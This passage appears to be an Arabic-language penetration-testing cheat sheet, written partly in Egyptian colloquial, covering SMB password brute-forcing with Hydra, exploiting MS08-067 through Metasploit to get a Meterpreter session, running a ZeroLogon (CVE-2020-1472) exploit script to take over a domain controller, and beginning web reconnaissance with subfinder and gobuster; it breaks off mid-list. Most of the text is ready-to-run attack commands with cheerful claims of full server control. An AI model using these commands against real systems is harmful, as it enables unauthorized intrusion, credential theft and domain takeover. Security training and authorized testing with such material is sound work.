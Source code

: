 #### ✅ **استخدام Hydra لتخمين الباسوردات:**

```bash
hydra -L users.txt -P passwords.txt smb://target.com
```

🔹 `users.txt` → قائمة بأسماء المستخدمين  
🔹 `passwords.txt` → قائمة بكلمات المرور

🟢 **الخلاصة بالعامية المصرية:**  
لو جبنا يوزرات من السيرفر، ممكن نجرب نخمن الباسوردات ونكسر الدخول!

---

### **💀 6. استغلال ثغرات RPC**

#### ✅ **استغلال MS08-067 لاختراق Windows XP/2003**

```bash
msfconsole
use exploit/windows/smb/ms08_067_netapi
set RHOSTS target.com
set LHOST your-ip
exploit
```

🔹 لو نجح، هتاخد **جلسة Meterpreter** وتتحكم في السيرفر بالكامل!

#### ✅ **استغلال ZeroLogon (CVE-2020-1472)**

```bash
python3 zerologon_exploit.py target.com
```

🔹 لو السيرفر **Domain Controller**، ممكن تبقى **Administrator** في الشبكة كلها!

🟢 **الخلاصة بالعامية المصرية:**  
لو السيرفر فيه ثغرات، ممكن نستخدم **Metasploit** أو سكريبتات Python لاختراقه بالكامل! 🔥

---

## **🚀 خطوات عملية لـ Web Pentesting**

### **1️⃣ جمع المعلومات (Reconnaissance)**

✅ **استكشاف الـ Subdomains**

```bash
subfinder -d target.com
```

✅ **البحث عن صفحات مخفية:**

```bash
gobuster dir -u https://target.com -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

✅ **جلب معلومات DNS:**
